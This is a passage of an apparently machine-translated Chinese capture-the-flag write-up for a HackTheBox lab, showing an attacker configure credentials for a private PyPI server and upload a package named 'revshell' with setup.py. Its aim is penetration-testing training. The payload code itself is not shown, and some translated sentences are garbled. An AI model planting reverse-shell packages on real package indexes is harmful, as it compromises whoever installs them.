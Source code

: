 
现在目录中有一个存档：`dist`

    root@kali# ls -l dist/
    total 4
    -rwxrwx--- 1 root vboxsf 943 Jul 13 07:10 revshell-0.0.1.tar.gz
    

#### 远程派普

要打包远程 PyPI，我将创建 ，在其中定义服务器，包括身份验证：`~/.pypirc`

    [distutils]
    index-servers =
      sneaky
    [sneaky]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
    

现在我可以使用命令运行以上传到此服务器。实际上，需要创建包并在同一运行中上传它。如果我只是尝试，它会抱怨：`setup.py``upload``upload`

    root@kali# python setup.py upload -r sneaky
    running upload
    error: Must create and upload files in one command (e.g. setup.py sdist upload)
    

但是，如果我 和 ，它的工作原理：`sdist``upload`

    root@kali# python setup.py sdist upload -r sneaky
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)
    running upload
    Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
    Server response (200): OK
    